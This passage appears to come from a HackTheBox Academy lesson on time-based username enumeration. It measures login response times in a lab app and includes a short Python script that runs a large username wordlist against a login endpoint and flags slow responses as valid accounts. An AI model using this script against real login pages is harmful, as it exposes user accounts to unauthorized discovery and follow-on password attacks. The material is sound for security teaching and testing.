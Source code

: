 To confirm our vulnerability, let us compare the response time for a valid and an invalid username. We will start with our known valid username, resulting in a response time of `187ms`:

![image](https://academy.hackthebox.com/storage/modules/205/timing/timing_userenum_1.png)

However, an invalid username results in a response time of only `3ms`:

![image](https://academy.hackthebox.com/storage/modules/205/timing/timing_userenum_2.png)

This confirms the possibility of time-based user enumeration. Keep in mind that over the public internet, the response timing will naturally be less stable, and fluctuations in the response time are to be expected.

* * *

## Enumerating Users

To enumerate existing users in the actual web application, we can use [this](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames-dup.txt) wordlist and write a small script:

```python
import requests

URL = "http://127.0.0.1:5000/login"
WORDLIST = "./xato-net-10-million-usernames-dup.txt"
THRESHOLD_S = 0.15

with open(WORDLIST, 'r') as f:
    for username in f:
        username = username.strip()

        r = requests.post(URL, data={"username": username, "password": "invalid"})

        if r.elapsed.total_seconds() > THRESHOLD_S:
            print(f"Valid Username found: {username}")

```

This is only a base template for an exploit script. We must adjust the threshold to an appropriate value for the individual web application. Furthermore, the format of the POST body might be different, and we might also need to implement logic to extract CSRF tokens to add to the login request. However, in our simple example web application, the above script suffices. Running it for a while reveals a valid username:

```shell
python3 solver.py

Valid Username found: egbert

```

Time-based user enumeration vulnerabilities can arise whenever the web application executes specific actions only for valid users and returns early for invalid users. This results in a measurable difference in the response timing, which can be used to detect whether the provided username was valid. Thus, we should analyze all functions that act based on a username we provide, not just the login process.
